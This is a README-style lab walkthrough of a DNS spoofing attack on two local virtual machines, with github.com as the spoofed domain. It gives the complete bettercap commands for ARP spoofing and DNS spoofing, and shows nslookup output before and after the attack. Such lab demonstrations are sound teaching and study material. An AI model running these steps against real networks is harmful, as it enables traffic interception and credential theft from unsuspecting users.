

# DNS SPOOFING 
DNS spoofing (Domain Name System spoofing) is a cyber attack where an attacker sends falsified DNS responses to a target.  
This results in the target being redirected to a malicious IP address instead of the intended legitimate address.  
Consequently, the attacker can intercept, modify, or block data intended for the legitimate website, leading to potential data breaches, man-in-the-middle attacks, or network disruptions.  
In this demo, we will demonstrate a DNS spoofing attack with [bettercap](https://github.com/bettercap/bettercap).  
`Bettercap` is a powerful, flexible, and portable tool created to perform various types of MITM (Man-In-The-Middle) attacks.  

<br/>

Our setup consists of two virtual machines in the same subnet: 
1. `Kali Linux` (attacker machine): 192.168.93.128
 
2. `Windows 11` (victim machine): 192.168.93.129

## Instructions 

**Initial DNS Lookup on the windows machine (victim)**:

```sh
C:\Users\johnb>nslookup github.com
Server:  UnKnown
Address:  192.168.93.2

Non-authoritative answer:
Name:    github.com
Address:  140.82.121.4
```  

As you can see from the previous output, the IP for the Github server is `140.82.121.4`

**Launch Bettercap Docker Container**: 

```sh
docker run -it --privileged --net=host bettercap/bettercap sudo bettercap -iface eth0
```
This starts Bettercap, using the specified network interface (e.g., `eth0`). Bettercap will initialize and prepare to monitor and manipulate network traffic.  

**Configure Bettercap for ARP Spoofing**:

```bash
net.probe on
```

This command enables network probing, allowing Bettercap to discover hosts on the network by sending ARP requests and listening for responses.


```bash
set arp.spoof.targets 192.168.93.129
```
This command sets the target for the ARP spoofing attack.  
Bettercap will focus on intercepting traffic from the Windows VM with IP address `192.168.93.129`.

```bash
arp.spoof on
```
This enables [ARP spoofing](../arp-spoofing/README.md), where Bettercap sends ARP packets to the target and the network gateway.  
The packets claim that the Kali VM's MAC address is associated with both the target IP (192.168.93.129) and the gateway's IP.  
This makes the target VM believe the Kali VM is the gateway, and vice versa.

**Configure DNS Spoofing**:  

```bash
set dns.spoof.all true
```

This command enables DNS spoofing for all DNS requests passing through Bettercap.


```bash
set dns.spoof.domains github.com
```
This command sets the specific domain to spoof. In this example, `github.com` is used.  


```bash
dns.spoof on
```

This enables DNS spoofing, where Bettercap will intercept DNS requests for the specified domain and respond with the spoofed IP address.  

**Test DNS Spoofing**:  
On the Windows 11 VM, we simulate the victim opening a browser and navigating to `https://github.com`.  
The Windows VM sends DNS requests to resolve `github.com`.  
These requests pass through the Kali VM (acting as the gateway due to ARP spoofing).  
Bettercap intercepts these requests, responds with the spoofed IP address (`192.168.93.128`), and redirects the victim to a malicious site hosted on the attacker machine:  


  

Also, here is the updated output of the initial nslookup command on the windows (victim) machine:  

```sh
C:\Users\johnb>nslookup github.com
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  192.168.93.2

Non-authoritative answer:
Name:    github.com
Addresses:  ::ffff:192.168.93.128
          192.168.93.128

```  
As you can notice now, from the point of the victim machine, `github.com` resolves to our attacker machine: `192.168.93.128`.  

### Detailed Flow of Network Traffic 
 
- **ARP Spoofing**: 
  - Kali VM (Bettercap) sends ARP packets to the Windows VM and the network gateway.  
 
  - The Windows VM updates its ARP cache to associate the gateway's IP with the Kali VM's MAC address.  
 
  - The network gateway updates its ARP cache to associate the Windows VM's IP with the Kali VM's MAC address.  
 
- **DNS Spoofing**: 
  - The Windows VM sends a DNS request to resolve `github.com`.  
 
  - The request is intercepted by the Kali VM due to the ARP spoofing.  
 
  - Bettercap responds to the DNS request with the spoofed IP address (`192.168.93.128`), directing the victim to a malicious site.  
 
- **Traffic Redirection** : 
  - When the Windows VM attempts to visit `github.com`, it is redirected to the IP address of the Kali VM.  
 
  - The Kali VM can serve a malicious web page, capture credentials, or perform further exploitation.  
